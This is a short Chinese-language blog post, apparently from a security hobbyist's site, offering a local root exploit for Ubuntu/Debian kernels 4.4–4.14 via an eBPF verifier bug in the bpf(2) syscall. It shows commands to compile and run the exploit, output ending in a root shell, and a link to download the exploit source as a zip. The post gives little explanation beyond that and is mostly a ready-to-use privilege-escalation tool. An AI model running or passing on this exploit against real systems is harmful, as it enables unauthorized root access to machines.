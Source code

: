 ```yaml
---
title: "Ubuntu 提权 EXP"
date: 2018-03-30T00:00:00+08:00
draft: false
tags: ['exp','linux']
categories: ['linux']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


该漏洞存在于 Linux 内核带有的 eBPF bpf(2) 系统调用中, 当用户提供恶意 BPF 程序使 eBPF 验证器模块产生计算错误, 导致任意内存读写问题.

<!--more-->

kernel 4.14 - 4.4

Only Ubuntu / Debian

```
$ gcc -o exp upstream44.c
$ chmod 777 exp
$ ./exp
task_struct = ffff8800789c1540
uidptr = fff88007c0cb6c4
spawning root shell
# whoami
root
```

[upstream44.zip](http://exp10it-1252109039.cossh.myqcloud.com/2018/03/30/1522407731.zip)